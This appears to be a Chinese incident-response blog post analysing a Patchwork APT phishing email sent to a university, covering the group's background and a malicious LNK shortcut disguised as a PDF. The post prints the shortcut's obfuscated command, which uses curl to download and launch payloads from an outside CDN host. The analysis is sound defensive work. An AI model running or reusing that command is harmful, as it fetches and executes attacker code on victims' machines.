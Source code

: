 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkwMTc2MDE3OA==&mid=2247486934&idx=1&sn=d44f01314c0d768a5499e815037ec95a

#  应急响应案例-33. 白象APT分析  
原创 ice  Ice ThirdSpace   2025-07-21 01:53  
  
#   
# 1.背景  
  
某高校老师近期通过流量分析其连了白象的C2，并且给他们内部的老师发了一封可疑邮件，用户怀疑这封邮件也是白象的钓鱼邮件，基于此背景，用户让我们协助对此邮件进行分析  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVROgvu8jXzmI31AqjLa3KfLqJUGDc6GXJwknJ0iaA6bjc2Rs6ibLFYnS7TrLNnp9NsuP3cwliav9k3lQ/640?wx_fmt=png&from=appmsg "")  
  
# 2.白象APT介绍  
  
白象 APT 组织（Patchwork）是一支疑似具有南亚某政府背景的黑客组织，最早攻击活动可追溯到 2009 年。其攻击目标主要为中国、巴基斯坦、孟加拉国等国家的军工、外交、 科研高校等相关敏感单位。  
  
在攻击手法上，投递阶段依然和以往一样以附带恶意附件或恶意连接的钓鱼 邮件为主，  
投递阶段的标题多以“通知”、“会议”、“纪要”等具有时效性的话题为主  
，在后 续载荷中除了使用以往的BADNEWS木马外，白象组织还开始使用开源木马如“Remcos”、 “Havoc”对目标进行后渗透。  
  
关于Remcos木马可参考个人文章：  
  
https://www.yuque.com/feiniao112/rq5bav/lkqxd6ffg6nhego7  
  
# 3.lnk文件分析  
  
解压出来以后，样本hash为：  

```
26eb39dc79c21908d71def677bd5d850398f2536f3ee69bc75d9d1833059be02
```

  
解压以后可以看到是一个pdf文件，但是看其属性，其是一个快捷方式，直接定位到快捷方式的目标  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVROgvu8jXzmI31AqjLa3KfLochcP4AotOMqO2Gg6ibs4gAot4ughffC6OPY2Emba0MVrhsVxOmA8AA/640?wx_fmt=png&from=appmsg "")  
  
目标这里面是其加载的内容，可以看到其内容如下：  

```
&#34;C:\Program Files\WindowsPowerShell\Modules\Pester\3.4.0\bin\Pester.bat&#34; ; 
cmd /c c^url --output C:\ProgramData\Evaluation241.pdf --ssl-no-revoke --url https://aerdxtr.b-cdn.net/aer -s 
& start C:\ProgramData\Evaluation241.pdf 
& c^url --output C:\ProgramData\E
```

  
感觉内容没有显示全，这里面主要的原因是windows快捷方式目标显示长度，在“快捷方式” – “目标”中，支持的最大长度仅为260个字符，任何比这更长的内容都不可见。但是，命令行参数的最大长度为4096个字符，因此我们无法在上面的窗口中看到完整的命令。  
  